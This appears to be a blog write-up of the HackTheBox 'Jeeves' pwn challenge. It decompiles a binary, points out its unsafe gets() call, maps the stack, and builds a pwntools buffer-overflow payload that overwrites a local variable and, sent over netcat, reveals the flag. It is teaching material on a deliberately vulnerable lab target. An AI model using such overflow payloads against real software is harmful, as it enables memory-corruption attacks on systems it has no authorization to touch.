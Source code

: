 ```yaml
---
title: "Intro to Binary Exploitation - Jeeves"
layout: post
author: "daniboomberger"
date: 2021-02-24 18:13:44 +0530
categories: [HackTheBox, Challenge]
tags: [htb, pwn, bof, binexp]
math: true
image: /assets/img/htb_jeeves/jeeves_title.png
---
```


# Intro to Binary Exploitation - Jeeves
```
> My first pwn challenge on the platform HackTheBox. 
> It was a simple and basic `Buffer Overflow`.
> I don't really have to much prior experience in pwn so it was a new challenge to me.
> Author: `daniboomberger`
```

So after we download the executable from HTB, my first command I run against any new file/challenge is `file`.
```
boomberger@kali:~/Documents/htb/challenges/pwn/jeeves$ file jeeves
jeeves: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1=18c31354ce48c8d63267a9a807f1799988af27bf, for GNU/Linux 3.2.0, not stripped
```

From the information above I usally look what the file type is, in our case an `ELF 64-bit executable`. Also we see it's not stripped which means all strings are in original form and we can basically read them in original form.
With this information I open `Ghidra` and open the ELF-executable, because Ghidra has a the functionality to convert the assembly code into readable Code(C). It's a useful feature cause it way easier to read and understand the functionality of the executable.
The Code that Ghidra did convert into C is as the following besides that there wasn't much to see:
```C
undefined8 main(void)
{
  char local_48 [44];
  int local_1c;
  void *local_18;
  int local_c;
  
  local_c = -0x21523f2d;
  printf("Hello, good sir!\nMay I have your name? ");
  gets(local_48);
  printf("Hello %s, hope you have a good day!\n",local_48);
  if (local_c == 0x1337bab3) {
    local_18 = malloc(0x100);
    local_1c = open("flag.txt",0);
    read(local_1c,local_18,0x100);
    printf("Pleased to make your acquaintance. Here\'s a small gift: %s\n",local_18);
    close(local_1c);
  }
  return 0;
}
```
By analyzing this code we can get actually all information we need to exploit it. The first thing we see is the `local_48`, which is set to `[44]` characters.
The same local variable will be filled with an input. The function `gets(local_48)` is known to be vulnerable to Buffer Overflows. Before creating a payload for the input we have to look at some other parts. The next import line of code is `if (local_c == 0x1337bab3)`. What we can get from this line is that we only can enter the if statement if the `local_c` variable has the value `0x1337bab3`. 
With some pre-knowledge about Stacks. Stacks grow basically down and get added up the heap grows up, but this information isn't necassary for the challenge.
Actually the `local_48` is the first initilized variable in the code, so we know that stacks grow down we can assume that we are able to overwrite `local_c`. 
But it's not that we can just add 44 character and then our needed value of `0x1337bab3`, because the Code has some mor variables that get initialized.
In Ghidra we are able to see the size of each variable and so we can calculate the starting point of the `local_c` variable. In the following hand-drawn picture I will try to visualize how the Stack looks in this application:
![Stack](/assets/img/htb_jeeves/stack.png)

(I know I drew it beautiful could say "I'm the pablo picasso of cyber security :)", also the Stack has more parts it's just visulized of our variables. If you need to )
As we see in the Stack we accumalated to 60 bytes of all local variables, to actually successfully overwrite the `local_c` variable we need 4 more bytes to pass our prefered value. On addition the payload will be 64 bytes.
For crafting a small payload I used python2 with the library pwntools. So we have all information needed to get the flag.
Also the python code isn't too much of magic is just this: 
```python
import pwn

print 'A' * 60 + pwn.p64(0x1337bab3)
```
> python2 -c "import pwn; print 'A' * 60 + pwn.p64(0x1337bab3)" > payload.txt

The above one I just wrote to make it more understandable and readable.
I used the second command but it actually doesn't really matter because the output is both the same, well the second command writes it in a `payloads.txt` file.
After we crafted the payload string we can try it on the binary executable....
```
boomberger@kali:~/Documents/htb/challenges/pwn/jeeves$ nc ip port < payload.txt
Hello, good sir!
May I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��7, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: HTB{hahahah_this_not_a_real_flag_frick_you}
```

The most interesting part of course is the payload we provided `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��7` the 'A' is to get to the point where we can overwrite our value to the `local_c` variable. The special characters is the value we want to overwrite the stack location of `local_c`.

> Thanks for reading the Article
> I have nothing more to add idk why I'm even writing this line so bye....








